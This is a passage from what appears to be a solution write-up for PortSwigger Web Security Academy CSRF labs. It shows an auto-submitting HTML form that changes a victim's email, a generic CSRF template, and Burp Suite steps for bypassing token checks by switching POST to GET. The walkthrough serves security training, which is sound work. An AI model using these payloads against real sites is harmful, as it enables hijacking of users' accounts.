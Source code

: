 4. To verify that the exploit works, try it on yourself by clicking "View exploit" and then check the resulting HTTP request and response.
5. Click "Deliver to victim" to solve the lab.

## CSRF where token validation depends on request method
Reference: https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method


### Quick Solution
The payload is exactly the same of the previous lab except for the request method (use **GET** instead of **POST**).

example:

<html>
  
  <body>
    <form action="https://0a1100310479ed53809b49f9000900b8.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="vfghzhzhzn&#64;spam&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>



### Solution
1. With your browser proxying traffic through Burp Suite, log in to your account, submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that if you change the value of the ``csrf`` parameter then the request is rejected.
3. Use "Change request method" on the context menu to convert it into a GET request and observe that the CSRF token is no longer verified.
4. If you're using Burp Suite Professional, right-click on the request, and from the context menu select Engagement tools / Generate CSRF PoC. Enable the option to include an auto-submit script and click "Regenerate".
Alternatively, if you're using Burp Suite Community Edition, use the following HTML template and fill in the request's method, URL, and body parameters. You can get the request URL by right-clicking and selecting "Copy URL".
```html
<form method="$method" action="$url">
     <input type="hidden" name="$param1name" value="$param1value">
</form>
<script>
      document.forms[0].submit();
</script>
```
5. Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".
6. To verify if the exploit will work, try it on yourself by clicking "View exploit" and checking the resulting HTTP request and response.
7. Click "Deliver to victim" to solve the lab.
